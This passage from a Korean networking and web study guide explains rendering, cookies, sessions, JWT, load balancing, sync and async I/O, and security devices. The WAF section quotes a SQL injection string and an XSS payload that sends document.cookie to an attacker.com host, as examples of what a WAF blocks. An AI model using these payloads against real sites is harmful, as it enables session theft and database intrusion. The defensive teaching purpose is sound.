6. **HTTP 요청 및 응답**: 브라우저가 `GET / HTTP/2` 요청을 날리고, 웹 서버/WAS는 HTML 문서를 청크 단위로 나누어 응답 패킷으로 내려보냅니다.

---

### 8.2 [Phase 2] 브라우저 렌더링 엔진 파이프라인 (Critical Rendering Path)

네트워크를 통해 HTML 문서의 첫 번째 14KB 바이트 조각이 도착하는 즉시, 브라우저의 렌더링 엔진(Chrome의 Blink, Safari의 WebKit)은 화려한 시각적 변환 작업을 시작합니다.

```mermaid
flowchart LR
    HTML[HTML 바이트] -->|파싱| DOM[DOM 트리]
    CSS[CSS 바이트] -->|파싱| CSSOM[CSSOM 트리]
    DOM --> RenderTree[Render Tree 구축]
    CSSOM --> RenderTree
    RenderTree --> Layout["Layout (Reflow: 위치/크기 계산)"]
    Layout --> Paint["Paint (Repaint: 픽셀 채우기)"]
    Paint --> Composite["Composite (레이어 합성 및 GPU 전송)"]
```

#### 1) DOM (Document Object Model) 트리 구축
브라우저는 네트워크에서 들어오는 날것의 0과 1의 비트열(Bytes)을 지정된 인코딩(UTF-8) 문자로 바꾸고, W3C 표준에 따라 태그를 식별하는 **토큰화(Tokenizing)** 과정을 거칩니다. 토큰을 객체 노드로 변환한 뒤 부모-자식 관계를 연결하여 트리 형태의 **DOM 트리**를 완성합니다.

#### 2) CSSOM (CSS Object Model) 트리 생성
HTML 파싱 도중 `<link rel="stylesheet">`나 `<style>` 태그를 만나면 CSS 파싱을 동시에 진행합니다. CSS의 캐스케이딩(Cascading) 상속 규칙이 적용된 **CSSOM 트리**를 구축합니다. CSS 파싱이 완료될 때까지 화면을 그리지 못하므로 CSS는 **렌더링 차단 리소스(Render-Blocking Resource)**입니다.

#### 3) 렌더 트리 (Render Tree) 구축
DOM과 CSSOM을 결합하여 화면에 **실제로 눈에 보이는 요소들만 선별한 렌더 트리**를 만듭니다.
- **주의**: `<head>`, `<script>`, `<meta>` 태그는 화면에 보이지 않으므로 렌더 트리에 포함되지 않습니다.
- **결정적 차이**: `display: none;` 속성이 부여된 노드는 렌더 트리에서 완전히 제외됩니다. 반면 `visibility: hidden;`이나 `opacity: 0;`은 화면에 빈 공간을 차지하므로 렌더 트리에 포함됩니다.

#### 4) 레이아웃 (Layout / Reflow)
기기의 뷰포트(Viewport) 크기를 기준으로, 렌더 트리의 각 노드가 **화면의 정확히 어느 좌표(X, Y)에 몇 픽셀(Width, Height)의 크기로 놓여야 하는지 기하학적 수치를 계산**하는 단계입니다. 박스 모델(Box-model), 마진, 패딩, Flexbox/Grid 위치가 여기서 확정됩니다.

#### 5) 페인트 (Paint / Repaint)
레이아웃에서 계산된 좌표를 바탕으로 텍스트, 색상, 테두리, 배경색, 그림자 효과 등을 **실제 화면의 픽셀(Pixel)로 변환(래스터화: Rasterization)**합니다. 브라우저는 성능을 위해 여러 개의 독립된 레이어(Layer)로 나누어 그립니다.

#### 6) 합성 (Composite)
여러 장의 투명한 셀로판지를 겹치듯, 각각 독립적으로 그려진 레이어들을 올바른 z-index 순서대로 겹쳐 **최종 화면을 합성하고 모니터 그래픽 카드(GPU)로 전송**하여 화면을 출력합니다.

> **프론트엔드 성능 최적화의 핵심**:  
> 자바스크립트로 DOM을 조작할 때 레이아웃(너비, 높이 등)을 건드리면 **Reflow -> Repaint -> Composite**이 모두 다시 일어나 심각한 화면 버벅임(Jank)이 발생합니다. 반면 GPU 가속 속성인 `transform: translate()`이나 `opacity`를 사용하면 Layout과 Paint를 통째로 건너뛰고 **Composite 단계만 단독 실행**되므로 60FPS의 매끄러운 애니메이션을 얻을 수 있습니다.

---

## 09. 세션과 쿠키는 무엇인가요?
> **HTTP의 무상태성을 극복하는 상태 유지 기술, 쿠키 vs 세션, 보안 취약점(HttpOnly, Secure)과 로그인 메커니즘**

앞서 07번 꼭지에서 살펴보았듯, HTTP는 기본적으로 이전 요청을 전혀 기억하지 못하는 **무상태(Stateless)** 프로토콜입니다. 무상태성 그대로라면 사용자가 장바구니에 상품을 담고 결제 페이지로 넘어갈 때마다 "당신은 누구신가요?"라며 로그인을 다시 요구해야 합니다. 이 치명적인 불편함을 해결하고 웹에 '연속적인 사용자 경험(상태 유지)'을 부여하기 위해 등장한 기술이 바로 **쿠키(Cookie)**와 **세션(Session)**입니다.

---

### 9.1 쿠키 (Cookie): 클라이언트에 저장되는 신분증

- **개념**: 서버가 클라이언트에게 전달하여 **웹 브라우저 로컬 저장소에 보관시키는 작은 크기(최대 4KB)의 키-값(Key-Value) 문자열 데이터**입니다.
- **동작 방식**: 서버가 응답 헤더에 `Set-Cookie: user=홍길동`을 실어 보내면, 브라우저는 이 쿠키를 저장해 두었다가 향후 동일 도메인으로 요청을 보낼 때마다 요청 헤더에 `Cookie: user=홍길동`을 자동으로 얹어서 전송합니다.

```
[서버] ──(응답: Set-Cookie: theme=dark)──> [브라우저 쿠키 저장소]
[서버] <──(다음 요청: Cookie: theme=dark)── [브라우저]
```

#### 쿠키의 보안 취약점과 필수 보안 플래그
쿠키는 사용자의 컴퓨터 브라우저에 평문 형태로 보관되므로 탈취와 변조에 취약합니다. 실무에서는 반드시 다음 플래그를 설정해야 합니다.

1. **`HttpOnly`**: 자바스크립트(`document.cookie`)를 통한 쿠키 접근을 원천 차단합니다. 악의적인 스크립트를 삽입하여 쿠키를 탈취하는 **XSS(Cross-Site Scripting) 공격**을 방어하는 가장 확실한 방패입니다.
2. **`Secure`**: 오직 암호화된 `HTTPS` 통신 채널에서만 쿠키를 전송하도록 제한합니다. 공공 와이파이 환경에서 패킷 스니핑(Sniffing)으로 쿠키가 평문 노출되는 것을 방지합니다.
3. **`SameSite`**: 서로 다른 도메인 간의 요청(Cross-Site Request) 시 쿠키 전송 여부를 통제하여 **CSRF(Cross-Site Request Forgery) 공격**을 차단합니다.
   - `Strict`: 어떤 크로스 사이트 요청에서도 쿠키를 절대 전송하지 않음.
   - `Lax`: 사용자가 링크를 클릭해 이동하는 단순 안전 요청(GET)에만 쿠키 허용(최신 브라우저의 기본값).
   - `None`: 모든 상황에서 쿠키 전송 허용 (반드시 `Secure` 속성과 함께 사용해야 함).

---

### 9.2 세션 (Session): 서버가 보관하는 진짜 장부

- **개념**: 사용자의 민감한 정보(이름, 권한 등)를 클라이언트에 맡기지 않고, **서버 측의 안전한 메모리나 데이터베이스(Redis 등)에 보관하는 메커니즘**입니다.
- **원리**: 클라이언트에게는 의미를 알 수 없는 무작위 문자열인 **`Session ID`**만 쿠키를 통해 쥐여주고, 실제 사용자의 상태 데이터는 서버의 세션 저장소에 매핑해 둡니다.

```mermaid
sequenceDiagram
    autonumber
    actor C as 클라이언트 브라우저
    participant S as 인증 서버 (WAS)
    participant Store as 세션 저장소 (Redis / RAM)

    C->>S: 1. 로그인 요청 (POST /login, ID/PW)
    Note over S: 자격 증명 검증 완료
    S->>Store: 2. 고유 Session ID 생성 및 사용자 데이터 저장<br/>(Key: "sess_9a8b7c", Value: {userId: 101, role: "ADMIN"})
    S-->>C: 3. 로그인 성공 응답<br/>Set-Cookie: JSESSIONID=sess_9a8b7c; HttpOnly; Secure

    Note over C: 브라우저 쿠키에 JSESSIONID 저장

    C->>S: 4. 마이페이지 접근 (GET /mypage)<br/>Cookie: JSESSIONID=sess_9a8b7c
    S->>Store: 5. 전달받은 Session ID로 사용자 정보 조회
    Store-->>S: 6. 사용자 정보 반환 (userId: 101)
    S-->>C: 7. 인증된 사용자 화면 정상 렌더링
```

---

### 9.3 쿠키 vs 세션 상세 비교표

| 비교 항목 | 쿠키 (Cookie) | 세션 (Session) |
| :--- | :--- | :--- |
| **저장 위치** | **클라이언트 로컬 (웹 브라우저)** | **서버 메모리 / 세션 스토리지 (Redis, DB)** |
| **보안성** | 취약 (로컬에 노출, 스니핑/변조 위험 존재) | **우수** (실제 데이터는 서버에 있고 ID만 전달됨) |
| **서버 자원 소모** | 전혀 없음 (클라이언트가 저장하므로 0) | 동시 접속자 수가 많아질수록 서버 메모리 점유 급증 |
| **속도** | 로컬 캐시에서 읽으므로 매우 빠름 | 서버 저장소 조회가 필요하므로 쿠키보다 약간 느림 |
| **수명 (Lifecycle)**| 브라우저를 닫아도 파일로 영구 보존 가능 (Expires) | 브라우저 종료 시 삭제되거나 서버 타임아웃 시 만료 |
| **용량 제한** | 한 도메인당 20개, 쿠키 하나당 4KB | 서버가 허용하는 메모리/디스크 한도 내 무제한 |

> **실무 아키텍처의 딜레마: 세션 클러스터링과 스티키 세션**  
> 서버를 여러 대로 늘리는 스케일 아웃 환경에서 세션을 서버 로컬 메모리에 저장하면, 1번 서버에서 로그인한 사용자가 다음 요청 때 2번 서버로 접속하면 로그인이 풀려버리는 현상이 발생합니다.  
> 이를 해결하기 위해 사용자를 항상 특정 서버로만 보내는 **스티키 세션(Sticky Session)**을 쓰거나, 모든 서버가 세션을 복제하는 **세션 클러스터링(Session Clustering)**, 혹은 모든 WAS가 중앙의 초고속 인메모리 DB를 공유하는 **분산 세션 저장소(Redis Session Storage)**를 구축합니다.

---

## 10. JWT란 무엇인가요?
> **JSON Web Token의 구조(Header.Payload.Signature), 전자 서명 검증 원리, Stateless 인증과 탈취 대응 전략**

앞서 살펴본 전통적인 세션 방식은 보안이 훌륭하지만, 수평 확장(Scale-out) 시 중앙 세션 저장소(Redis)를 유지해야 하고 서버 간 동기화 오버헤드가 발생한다는 명확한 한계를 지닙니다.  

클라우드와 마이크로서비스 아키텍처(MSA) 시대로 접어들며, **"서버가 세션을 일일이 기억하지 말고, 클라이언트가 들고 다니는 신분증 자체가 완벽한 위조 방지 검증 능력을 갖추게 하자!"**는 발상에서 탄생한 표준 토큰 기술이 바로 **JWT(JSON Web Token, RFC 7519)**입니다.

---

### 10.1 JWT의 3단계 구조: `Header.Payload.Signature`

JWT는 점(`.`)을 구분자로 하여 세 개의 파트로 이루어진 하나의 긴 문자열입니다.

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkhvbmciLCJpYXQiOjE1MTYyMzkwMjJ9.4z9xJ6...
[─────── 1. Header ───────] . [─────── 2. Payload ───────] . [─────── 3. Signature ───────]
```

```mermaid
classDiagram
    class JWT {
        +Header (헤더)
        +Payload (내용)
        +Signature (서명)
    }
    class Header {
        +typ: "JWT"
        +alg: "HS256" or "RS256"
    }
    class Payload {
        +sub: "user_123" (주제)
        +name: "홍길동" (이름)
        +exp: 1718000000 (만료시각)
        +role: "ADMIN" (권한)
    }
    class Signature {
        +HMACSHA256(Header + Payload, SecretKey)
    }
    JWT *-- Header
    JWT *-- Payload
    JWT *-- Signature
```

#### 1) 헤더 (Header)
- 토큰의 타입(`typ: "JWT"`)과 서명을 생성할 때 사용한 단방향 해시 알고리즘(`alg: "HS256"` 또는 `"RS256"`)을 지정합니다.
- Base64URL로 인코딩되어 첫 번째 블록을 구성합니다.

#### 2) 내용 (Payload : 클레임 데이터)
- 토큰에 담을 실제 사용자 정보(Claim: 속성 정보의 쌍)를 담습니다.
  - **등록된 클레임(Registered Claims)**: `iss`(발행자), `exp`(만료시간), `sub`(토큰 주제/식별자), `iat`(발행시각).
  - **공개/비공개 클레임**: `role: "ADMIN"`, `userId: 101` 등 서비스 비즈니스에 필요한 커스텀 데이터.
- Base64URL로 인코딩되어 두 번째 블록을 이룹니다.

> **경고: Payload는 절대로 암호화된 것이 아닙니다!**  
> Base64URL은 단순한 인코딩(사람이 읽을 수 있는 문자로 변환)일 뿐 암호화가 아닙니다. 누구나 F12 개발자 도구나 jwt.io 사이트에 들어가면 1초 만에 디코딩하여 내부 JSON 데이터를 훤히 들여다볼 수 있습니다. 따라서 **Payload에는 비밀번호, 주민등록번호, 계좌번호와 같은 민감한 개인정보를 절대로 담아서는 안 됩니다.**

#### 3) 서명 (Signature : 위변조 방지의 핵심)
- JWT의 신뢰성을 보장하는 핵심 영역입니다. 헤더와 페이로드를 각각 Base64URL로 인코딩한 뒤, 둘을 합쳐 서버만 알고 있는 **비밀키(Secret Key)**를 사용해 헤더에 지정된 해시 알고리즘으로 암호화하여 서명을 생성합니다.

`Signature = HMAC-SHA256(Base64URL(Header) + "." + Base64URL(Payload), SecretKey)`

---

### 10.2 전자 서명 검증 원리: 왜 위조가 불가능한가?

해커가 악의적으로 페이로드의 `"role": "USER"`를 `"role": "ADMIN"`으로 수정하여 서버로 전송했다고 가정해 봅시다.

```
[해커의 위조 시도]
1. 해커가 Payload를 디코딩하여 권한을 ADMIN으로 변조함
2. 변조된 토큰을 서버로 전송함
3. [서버의 검증]:
   - 서버는 도착한 Header와 변조된 Payload를 자신의 SecretKey로 다시 암호화해 봄
   - 연산 결과 나온 '계산된 서명' != 토큰 끝에 적힌 '기존 서명' (불일치!)
4. 서버는 즉각 토큰을 위조된 것으로 판단하고 401 Unauthorized 에러를 뿜으며 거부함!
```
해커는 서버의 `SecretKey`를 탈취하지 못하는 한, 올바른 서명을 새롭게 생성해 낼 방법이 수학적으로 불가능합니다.

---

### 10.3 JWT의 치명적 약점과 Refresh Token 대응 전략

#### 무상태 인증의 치명적 한계: 즉각 무효화 불가
서버는 토큰을 발급한 뒤에는 세션 저장소에 아무것도 저장하지 않습니다. 따라서 **토큰이 해커에게 한 번 탈취당하면, 서버 측에서 그 토큰을 강제로 만료시키거나 삭제(로그아웃)할 방법이 없습니다.** 토큰에 적힌 만료 시간(`exp`)이 끝날 때까지 해커는 자유롭게 API를 호출할 수 있습니다.

#### 실무 표준 대응책: Access Token과 Refresh Token의 협업 (RTR 전략)

이 문제를 극복하기 위해 실무에서는 **수명이 극도로 짧은 Access Token**과 **수명이 긴 Refresh Token**을 이원화하여 운영합니다.

```mermaid
sequenceDiagram
    autonumber
    actor C as 클라이언트
    participant S as 인증 서버 (Auth Server)
    participant R as 리프레시 토큰 DB (Redis)

    C->>S: 1. 로그인 요청 (ID / PW)
    Note over S: 자격 증명 성공
    S->>R: 2. Refresh Token 저장 (Key: userId, Expire: 14일)
    S-->>C: 3. 토큰 세트 발급<br/>- Access Token (유효기간: 15분, 메모리 보관)<br/>- Refresh Token (유효기간: 14일, HttpOnly 쿠키 보관)

    Note over C,S: 15분 후 Access Token 만료됨

    C->>S: 4. API 요청 (만료된 Access Token)
    S-->>C: 5. 401 Token Expired 응답

    C->>S: 6. 토큰 재발급 요청 (POST /refresh, Refresh Token 동반)
    S->>R: 7. Redis의 Refresh Token과 유효성 및 탈취 여부 대조
    R-->>S: 8. 검증 완료
    S->>R: 9. 기존 Refresh Token 폐기 및 신규 발급 (RTR: Refresh Token Rotation)
    S-->>C: 10. 새로운 Access Token + 새 Refresh Token 재발급
```

- **Access Token (수명 약 15분~30분)**: 리소스 API 접근용. 탈취당해도 수명이 짧아 피해가 최소화됩니다.
- **Refresh Token (수명 약 1~2주)**: Access Token 재발급 전용. 브라우저 자바스크립트가 접근할 수 없는 안전한 `HttpOnly/Secure` 쿠키에 저장하며, 탈취 감지 시 서버 Redis에서 즉시 해당 토큰을 삭제하여 영구 차단할 수 있습니다.

---

## 11. 라우터, 스위치, 로드밸런서는 무엇인가요?
> **L2 스위치(MAC 주소 스위칭), L3 라우터(IP 주소 라우팅), L4 vs L7 로드밸런서의 부하 분산 알고리즘**

데이터가 인터넷이라는 거대한 네트워크망을 건너 수천 대의 서버 중 가장 최적의 컴퓨터를 찾아 들어가기 위해서는 길을 뚫어주고 트래픽을 안내해 주는 **네트워크 하드웨어 장비 삼총사**의 도움이 필수적입니다. 이 장비들은 각자가 다루는 OSI 계층에 따라 확연히 구분됩니다.

---

### 11.1 계층별 네트워크 장비의 핵심 역할

```
  [ L7 애플리케이션 ] ──> L7 로드밸런서 (URL, HTTP 헤더, 쿠키 기반 지능형 분산)
  [ L4 전송 계층    ] ──> L4 로드밸런서 (IP + Port 번호 기반 고속 패킷 분산)
  [ L3 네트워크 계층] ──> L3 라우터 (IP 주소 기반 최적 경로 라우팅, 서브넷 연결)
  [ L2 데이터 링크  ] ──> L2 스위치 (MAC 주소 기반 로컬 장비 간 프레임 스위칭)
```

#### 1) L2 스위치 (Switch : 로컬 네트워크의 허브)
- **동작 계층**: OSI 2계층 (데이터 링크 계층).
- **식별 주소**: 하드웨어 고유의 물리적 주소인 **MAC 주소(MAC Address)**.
- **작동 원리**: 모든 포트에 무식하게 패킷을 뿌려대는 허브(Hub)와 달리, 스위치는 들어오는 프레임의 출발지 MAC 주소를 관찰하여 **MAC 주소 테이블(MAC Address Table)**을 스스로 학습(Learning)합니다. 이후 특정 MAC 주소를 향하는 데이터는 다른 포트를 방해하지 않고 해당 장비가 연결된 포트로만 1:1로 직접 쏴줍니다(Filtering & Forwarding).
- **한계**: 같은 내부 네트워크(동일 서브넷/브로드캐스트 도메인) 안에서만 통신할 수 있으며, 서로 다른 네트워크(인터넷)로 데이터를 넘기지 못합니다.

#### 2) L3 라우터 (Router : 글로벌 네트워크의 길잡이)
- **동작 계층**: OSI 3계층 (네트워크 계층).
- **식별 주소**: 논리적 주소인 **IP 주소(IPv4, IPv6)**.
- **작동 원리**: 서로 다른 네트워크(예: 우리 집 공유기 내부망과 네이버 데이터센터 외부망)를 서로 연결해 줍니다. 수많은 경로 중 목적지 IP까지 패킷을 가장 빠르고 안전하게 보낼 수 있는 최적의 경로를 **라우팅 알고리즘(OSPF, BGP)**을 통해 계산하고, 자신의 **라우팅 테이블(Routing Table)**에 따라 패킷을 다음 라우터로 넘겨줍니다(Hop-by-Hop 라우팅).

---

### 11.2 대규모 트래픽의 수호자: L4 vs L7 로드밸런서

서비스의 규모가 커지면 한 대의 서버로는 수십만 명의 접속을 감당할 수 없습니다. 이때 서버 여러 대를 수평으로 배치하고 앞단에서 트래픽을 골고루 분배해 주는 장비가 바로 **로드밸런서(Load Balancer)**입니다.

| 비교 항목 | L4 로드밸런서 | L7 로드밸런서 |
| :--- | :--- | :--- |
| **판단 기준** | **IP 주소 + 포트 번호 (Port)** | **HTTP/HTTPS 페이로드 (URL, 헤더, 쿠키)** |
| **패킷 분석 범위** | 전송 계층 헤더까지만 분석 (내용 안 봄) | 애플리케이션 계층 본문 전체를 뜯어서 분석 |
| **처리 속도** | **극도로 빠름** (단순 패킷 포워딩) | 상대적으로 느림 (패킷 파싱 및 암호화 해제 필요) |
| **비용 및 부하** | 낮음 (적은 CPU 연산) | 높음 (메모리 및 연산 자원 소모 큼) |
| **지능형 라우팅** | 불가 (단순 포트 매핑) | **가능** (`/api`는 WAS로, `/img`는 CDN으로 분기) |
| **대표 기술** | F5 BIG-IP, AWS NLB (Network LB), IPVS | Nginx, HAProxy, AWS ALB (Application LB) |

```
[L4 라우팅 예시]
192.168.0.1:80 으로 오는 TCP 패킷 ───> 10.0.0.1:8080 or 10.0.0.2:8080 으로 번갈아 바이패스

[L7 라우팅 예시]
요청 URL 분석:
  • https://example.com/videos/* ───> 고용량 동영상 전용 서버군
  • https://example.com/api/pay/* ──> 결제 전용 마이크로서비스
  • 모바일 기기(User-Agent) 요청 ───> 모바일 전용 뷰 렌더링 서버
```

---

### 11.3 대표적인 로드밸런싱 알고리즘

서버들에게 트래픽을 어떤 규칙으로 나누어 줄 것인가는 서비스 특성에 따라 결정됩니다.

1. **라운드 로빈 (Round Robin)**
   - 서버 목록을 순서대로 돌아가며 1:1:1로 공평하게 요청을 배분합니다. 서버들의 하드웨어 스펙이 모두 동일하고 요청들의 처리 시간이 균일할 때 적합합니다.
2. **가중 라운드 로빈 (Weighted Round Robin)**
   - 각 서버의 성능에 가중치를 부여합니다. 고성능 8코어 서버에는 가중치 3, 구형 2코어 서버에는 가중치 1을 할당하여 트래픽을 3:1 비율로 처리시킵니다.
3. **최소 연결 방식 (Least Connections)**
   - 현재 **활성 연결(Active Connection) 수가 가장 적은 서버**로 새 요청을 보냅니다. 파일 다운로드, 비디오 스트리밍처럼 연결 유지 시간이 제각각인 서비스에 가장 이상적입니다.
4. **IP 해시 (IP Hash / Source Hash)**
   - 클라이언트의 IP 주소를 해싱하여 특정 서버에 1:1로 고정 매핑합니다. 사용자가 재접속해도 항상 같은 서버로 연결되므로 세션 불일치 문제를 해결할 수 있습니다.

---

## 12. 통신에서 동기와 비동기는 어떻게 다른가요?
> **동기 vs 비동기, 블로킹 vs 논블로킹의 4분면 매트릭스 및 네트워크 소켓 프로그래밍 비유**

개발자들이 가장 많이 혼동하며 면접 단골 질문으로 꼽히는 개념이 바로 **동기(Synchronous) / 비동기(Asynchronous)**와 **블로킹(Blocking) / 논블로킹(Non-blocking)**입니다. 두 쌍은 서로 비슷한 것 같지만, 전혀 다른 관심사를 바라보고 있습니다.

---

### 12.1 개념의 명확한 분리: 관심사의 차이

```
┌────────────────────────────────────────────────────────────────────────┐
│ 1. 동기 / 비동기 (Sync / Async)     : "작업의 완료를 누가 신경 쓰는가?"    │
│ 2. 블로킹 / 논블로킹 (Block / Non-Block) : "호출된 함수가 제어권을 바로 주는가?" │
└────────────────────────────────────────────────────────────────────────┘
```

- **동기 (Synchronous)**: 호출자(A)가 피호출자(B)의 작업 완료 여부나 결과를 **직접 계속 확인하고 챙기는** 방식입니다.
- **비동기 (Asynchronous)**: 호출자(A)는 피호출자(B)에게 일을 맡기며 콜백(Callback) 함수를 넘겨주고, **자신은 결과에 전혀 신경을 끕니다**. B가 작업을 마치면 스스로 콜백을 실행하거나 이벤트를 쏴서 완료를 알립니다.
- **블로킹 (Blocking)**: A가 B를 호출했을 때, B가 자신의 작업이 끝날 때까지 **제어권(Control)을 쥐고 돌려주지 않아서 A가 아무 일도 못 하고 멈춰있는(Wait)** 상태입니다.
- **논블로킹 (Non-blocking)**: A가 B를 호출했을 때, B가 준비 여부와 상관없이 **제어권을 즉시 A에게 반환하여 A가 자기 할 일을 계속할 수 있게 해주는** 상태입니다.

---

### 12.2 블로킹/논블로킹 x 동기/비동기 4분면 매트릭스

두 축을 교차하면 실무에서 마주치는 4가지 환상적인 통신 모델이 완성됩니다.

```
                  [ 동기 (Sync) ]                      [ 비동기 (Async) ]
       ┌────────────────────────────────────┬────────────────────────────────────┐
       │ 1. Sync - Blocking                 │ 2. Async - Blocking                │
       │ • 제어권 없음 + 결과 기다림        │ • 제어권 없음 + 결과 통지 방식     │
블로킹 │ • 흔한 전통적 I/O 모델             │ • 의도치 않은 안티패턴             │
       │ • ex) 전통적 JDBC 쿼리,            │ • ex) Node.js에서 블로킹 C 라이브  │
       │       일반적인 동기 파일 읽기      │       러리를 잘못 호출했을 때      │
       ├────────────────────────────────────┼────────────────────────────────────┤
       │ 3. Sync - Non-blocking             │ 4. Async - Non-blocking            │
       │ • 제어권 바로 받음 + 결과 확인 폴링│ • 제어권 바로 받음 + 콜백으로 통지 │
논블록 │ • 결과 나올 때까지 반복 질문       │ • 가장 이상적인 고성능 I/O         │
       │ • ex) 루프를 돌며 소켓 데이터 준비 │ • ex) Node.js 이벤트 루프, Netty,  │
       │       상태를 확인하는 Polling      │       Linux epoll, Nginx 아키텍처  │
       └────────────────────────────────────┴────────────────────────────────────┘
```

#### 4분면 일상 비유와 네트워크 소켓 예시

1. **동기 + 블로킹 (Sync-Blocking)**:  
   - *비유*: 카페에서 커피를 주문하고, 커피가 나올 때까지 카운터 앞에 멍하니 서서 다른 아무 일도 하지 못하고 기다림.
   - *소켓*: 클라이언트가 `socket.read()`를 호출하면, 서버에서 데이터 패킷이 랜카드로 도착할 때까지 스레드가 대기 큐에 잠들고 CPU를 반납함.
2. **동기 + 논블로킹 (Sync-Nonblocking)**:  
   - *비유*: 카운터에 "커피 나왔나요?"라고 5초마다 가서 물어봄. 아직 안 나왔다고 하면 제자리로 와서 휴대폰을 잠깐 만지작거리다가 다시 가서 "지금은 나왔나요?" 확인(Polling).
   - *소켓*: Non-blocking 모드로 설정된 소켓에서 `read()`를 호출하면 데이터가 없어도 에러(`EWOULDBLOCK`)를 내며 즉시 리턴. 스레드는 루프를 돌며 패킷이 찰 때까지 계속 질의함.
3. **비동기 + 블로킹 (Async-Blocking)**:  
   - *비유*: 진동벨(콜백)을 받아 자리에 앉았는데, 굳이 진동벨이 울릴 때까지 아무 생각도 안 하고 얼어붙어 있는 기괴한 상황.
   - *소켓*: 비동기 논블로킹 프레임워크를 쓰면서 중간에 오래된 동기 블로킹 라이브러리(전통 RDBMS 드라이버 등)를 호출하여 전체 이벤트 루프가 멈춰버리는 현상.
4. **비동기 + 논블로킹 (Async-Nonblocking)**:  
   - *비유*: 진동벨을 받아 들고 자기 자리로 돌아와 편안하게 노트북으로 코딩을 함. 커피가 완성되면 진동벨이 저절로 울리고 그때 커피를 픽업해 옴.
   - *소켓*: 운영체제의 커널 I/O 이벤트 통지 시스템(**Linux epoll, macOS kqueue, Windows IOCP**)을 이용해 데이터가 다 수신되었을 때만 애플리케이션으로 신호를 보내 처리하는 고성능 비동기 아키텍처.

---

## (+) 방화벽과 보안 장비는 무엇인가요?
> **네트워크 레벨 방화벽(Packet Filtering), WAF, IDS/IPS, DDoS 방어 장비의 계층별 보안 아키텍처**

기업의 엔터프라이즈 인프라는 매일 수억 건의 악의적인 해킹 공격, 포트 스캐닝, 랜섬웨어 침투 시도에 노출되어 있습니다. 서비스를 안전하게 지키기 위해 엔지니어는 단 하나의 방어선에 의존하지 않고, 트래픽이 유입되는 관문마다 다양한 특성의 보안 장비를 계층적으로 배치하는 **심층 방어(Defense in Depth)** 전략을 구사합니다.

---

### 12.1 계층별 네트워크 보안 장비 아키텍처

```
[외부 악성 트래픽 유입]
          │
          ▼
 [ 1단계 : DDoS 방어 장비 ]  ───> 수십 Gbps의 볼륨 트래픽 및 SYN Flooding 흡수/차단
          │
          ▼
 [ 2단계 : L3/L4 레벨 방화벽 ] ───> 5-Tuple 기반 비인가 IP 및 비인가 포트(Port) 패킷 차단
          │
          ▼
 [ 3단계 : IPS (침입 방지 시스템) ] ───> 패킷 시그니처 분석을 통한 악성코드/취약점 실시간 차단
          │
          ▼
 [ 4단계 : WAF (웹 애플리케이션 방화벽) ] ───> HTTP 페이로드 정밀 검사 (SQL Injection, XSS 차단)
          │
          ▼
[안전한 내부 웹 서버 & WAS]
```

---

### 12.2 주요 보안 장비별 특징과 방어 영역

#### 1) 네트워크 레벨 방화벽 (Packet Filtering & Stateful Inspection)
- **동작 계층**: OSI 3계층(IP) 및 4계층(Port).
- **작동 원리**: **5-Tuple**(출발지 IP, 목적지 IP, 출발지 Port, 목적지 Port, 프로토콜) 정보를 기반으로 트래픽을 허용(`Allow`)하거나 폐기(`Drop`)합니다.
- **상태 기반 감시(Stateful Inspection)**: 단순 패킷 필터링을 넘어, 이미 3-Way Handshake를 정상적으로 맺은 세션의 응답 패킷은 번거로운 규칙 검사 없이 자동으로 통과시켜 처리 성능을 대폭 끌어올립니다.
- *한계*: 80(HTTP), 443(HTTPS)처럼 허용해 둔 포트로 들어오는 정상 패킷 내부에 은밀하게 숨겨진 웹 해킹 공격 코드는 탐지하지 못합니다.

#### 2) 웹 애플리케이션 방화벽 (WAF : Web Application Firewall)
- **동작 계층**: OSI 7계층 (애플리케이션 계층).
- **작동 원리**: HTTP/HTTPS 트래픽의 헤더와 바디 본문(JSON, Form Data)을 정밀하게 디코딩하여, 웹 애플리케이션의 고유 취약점을 노리는 악성 페이로드를 실시간으로 탐지하고 차단합니다.
- **주요 방어 대상 (OWASP Top 10)**:
  - **SQL Injection**: `SELECT * FROM users WHERE id = '1' OR '1'='1';` 과 같은 악의적 SQL 구문 차단.
  - **XSS (Cross-Site Scripting)**: `<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>` 스크립트 무력화.
  - 악성 파일 업로드 필터링 및 비정상 User-Agent 봇 차단.
- **대표 제품**: AWS WAF, Cloudflare WAF, ModSecurity.

#### 3) 침입 탐지/방지 시스템 (IDS vs IPS)
- **IDS (Intrusion Detection System : 침입 탐지)**:
  - 네트워크 탭(TAP)이나 미러링 포트를 통해 트래픽을 복제하여 모니터링합니다. 해킹 징후나 기지국 공격 패턴을 발견하면 보안 관리자에게 경고(Alert)를 보냅니다. 트래픽 흐름 밖에 있으므로 서비스 지연을 유발하지 않으나, 실시간 직접 차단은 불가능한 **수동적(Passive)** 감시 장비입니다.
- **IPS (Intrusion Prevention System : 침입 방지)**:
  - 패킷이 통과하는 인라인(Inline) 길목에 직접 배치됩니다. 알려진 악성코드 시그니처(Signature)와 일치하거나 비정상적인 트래픽 급증(Anomaly)이 감지되면 즉각 해당 패킷을 드롭(Drop)시키고 세션을 강제 종료시키는 **능동적(Active)** 방어 장비입니다.

#### 4) DDoS 방어 장비 (Distributed Denial of Service Protection)
- 수만 대의 좀비 PC나 봇넷을 동원해 서버가 감당할 수 없는 초거대 대역폭 트래픽을 퍼붓는 DDoS 공격을 무력화합니다.
- **볼륨 공격 방어**: 전 세계 Anycast 네트워크로 트래픽을 지리적으로 잘게 쪼개어 분산 흡수하고, 정상 트래픽만 걸러내는 **스크러빙 센터(Scrubbing Center)**를 통해 원본 서버를 보호합니다.
- **프로토콜 공격 방어**: 3-Way Handshake의 미완료 취약점을 악용하는 **SYN Flooding** 공격을 막기 위해, 로드밸런서가 대신 가상으로 SYN-ACK를 응답하여 유효성을 검증하는 **SYN Cookie** 기술 등을 사용합니다.

---

## (+) 웹 소켓(Web Socket)은 무엇인가요?
> **HTTP 폴링의 한계 극복, HTTP 업그레이드 핸드셰이크, 전이중(Full-Duplex) 실시간 양방향 통신과 실무 활용**

